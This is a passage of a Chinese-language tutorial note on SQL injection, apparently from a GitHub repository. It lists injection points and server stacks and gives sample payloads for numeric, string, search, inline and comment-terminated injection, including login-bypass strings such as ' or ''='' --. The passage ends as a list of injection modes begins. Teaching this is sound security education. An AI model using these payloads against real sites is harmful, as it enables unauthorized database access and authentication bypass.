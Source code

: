 # SQL注入进阶

大部分内容查找自网络，自己只不过就是整理了一下，当作笔记用，有很多不足，请表哥们指点。

## SQL注入介绍

所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。具体来说，它是利用现有应用程序，将(恶意)的SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入(恶意)SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。造成SQL注入漏洞原因有两个：一个是没有对输入的数据进行过滤(过滤输入)，还有一个是没有对发送到数据库的数据进行转义(转义输出)。

## 常见的注入点

```linux
GET 请求参数：该请求在 URL 中发送参数。
POST 请求参数：数据被包含在请求体中。
HTTP Cookie参数：数据Cookie中可能会触发 SQL 注入漏洞
其他注入型数据：HTTP 请求的头部字段也可能会触发 SQL 注入漏洞
如：HTTP User-Agent头和HTTP Referer头
```

## 常见的脚本类型

```linux
1、LAMP: Linux+apache+PHP+MySQL
2、LNMP:Linux+Nginx+PHP+MySQL
3、Windows+IIS+.net+MSSql Server
4、Linux+Tomcat+JSP+MySQL
5、Linux+Tomcat+JSP+Oracle
6、asp+access
7、asp.net+MSSql
8、asp + mssql
```

## sql漏洞利用技术

```linux
安类型分：
1、数字型注入
    测试方法为：http://host/test.php?id=100 and 1=1
    接收参数为：100 and 1=1
    sql语句为： SELECT * FROM news WHERE id=100 and 1=1
2、字符型注入
    测试方法为：http://host/test.php?name=man' and '1'='1
    接收参数为：man' and '1'='1
    sql语句为：SELECT * FROM news WHERE name='man' and '1'='1'
3、搜索型注入点
    测试方法为：http://host//test.php?keyword=python%' and 1=1 and '%'='
    接收参数为：python%' and 1=1 and '%'='
    sql语句为：SELECT * FROM news WHERE keyword like '%python%' and 1=1 and '%'='%'
4、内联式SQL注入
    测试方法为：http://host//login.php  post参数为：name=' or ''='&pass=fuzz || name=fuzz&pass=' or ''='
    接收参数为：name='' or ''='' pass ='fuzz' || name='fuzz' pass ='' or ''=''
    sql语句为：AND的优先级是大于OR的，于是会先计算AND，然后之后才会计算OR
        SELECT * FROM admin WHER name='' or ''='' AND pass ='fuzz'  # 返回失败
        SELECT * FROM admin WHER name='fuzz' AND pass ='' or ''=''  # 返回成功
5、终止式SQL注入
    终止式SQL语句注入是指攻击者在注入SQL代码时，通过注释剩下的查询来成功结束该语句
    测试方法为：http://host//login.php  post参数为：name=' or ''='' --&pass=
    接收参数为：name='' or ''='' -- pass =''
    sql语句为：SELECT * FROM admin WHER name='' or ''='' --' AND pass =''

五种不同的注入模式：
1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
```